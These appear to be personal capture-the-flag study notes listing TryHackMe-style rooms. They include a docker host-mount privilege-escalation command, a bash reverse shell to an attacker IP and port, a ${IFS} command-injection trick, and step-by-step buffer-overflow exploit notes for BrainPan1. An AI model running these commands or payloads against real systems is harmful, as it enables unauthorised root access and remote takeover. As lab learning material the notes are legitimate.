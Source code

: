 ```bash
docker run -v /:/mnt --rm -it alpine(or bash) chroot /mnt sh
```


# CTFs
```
- Lazy Admin
- Anonymous
- Tomghost
- ConvertMyVideo
- pspy
- BrainPan1
- bfo
```

- ConvertMyVideo
```bash
${IFS} = using as space

bash -i >& /dev/tcp/10.17.27.169/7778 0>&1
```

- Found a file running by root with pspy64
- we could add a reverse shell and wait the connection

> the others I've done before.. so i'll just follow the videos

## Buffer Overflow 101 for brainPan1 CTF
```bash
- first FUZZ to find when the application gonna crash
- then: msf-pattern_create -l <number of crash>
- paste to the script
- copy the EIP value
- msf-pattern_offset -l <number of crash> -q <EIP number>
- grab the offset value
- we can send the buffer “A”*<offset value> + “B”*4  = the EIP should be 42424242
- grab badchars chars
- add to your script and u should follow the ESP dump to find the badchars
- or > Using Mona (check how to use Mona from PEH here > https://johnermac.github.io/certs/pnpt/peh/#exploit-development-using-python3-and-mona)
- take off the badchars of the script
- u should find the pointer with no protections
- invert the pointer
- generate msfvenom with the inverted pointer, open a listener to receive connection
- exploit!
```
